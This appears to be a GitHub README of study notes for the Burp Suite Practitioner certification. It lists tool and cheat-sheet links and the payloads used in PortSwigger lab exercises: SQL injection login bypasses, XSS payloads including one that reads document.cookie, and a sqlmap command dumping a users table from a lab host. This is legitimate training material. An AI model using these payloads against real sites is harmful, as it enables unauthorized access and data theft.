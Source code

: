 # Burp-Suite-Practitioner

## Useful Links:

1)https://portswigger.net/web-security/authentication/auth-lab-usernames ~ username wordlist

2)https://portswigger.net/web-security/authentication/auth-lab-passwords ~ password wordlist

3)https://github.com/frohoff/ysoserial ~ Java deserialization payload generator

4)https://github.com/PortSwigger/http-request-smuggler - HTTP request smuggler

5)https://portswigger.net/web-security/cross-site-scripting/cheat-sheet ~ PortSwigger XSS cheat sheet

6)https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md ~ XSS cheat sheet

7)https://portswigger.net/burp/documentation/desktop/tools/dom-invader/dom-xss ~ DOM XSS
## Labs

1)_SQL injection vulnerability in WHERE clause allowing retrieval of hidden data_
  
  Payload used:
  
  ' OR 1=1 --

2)_Reflected XSS into HTML context with nothing encoded_
  
  Payload used:
  
  <script>alert(1)</script>

3)_Stored XSS into HTML context with nothing encoded_
  
  Payload used:

  <script>alert(1)</script>

4)_DOM XSS in document.write sink using source location.search_
  
  Payload used:
  
  <img src=x onerror=alert(1)>
 
 5)_DOM XSS in innerHTML sink using source location.search_
 
  Payload used:
 
  <img src=x onerror=alert(1)>
  
 6)_DOM XSS in jQuery anchor href attribute sink using location.search source_
  
  Payload used:
 
  javascript:alert(document.cookie)
  
 7)_SQL injection UNION attack, retrieving data from other tables_
 
  Payload used:
  
  sqlmap -u https://0a6200cf04ebbed9c2d465d1009a00f2.web-security-academy.net/filter?category=* --batch -D public -T users --dump
  
 8)_SQL injection vulnerability allowing login bypass_
 
 Payload used:
 
 ' OR 1=1 --
 
 9)
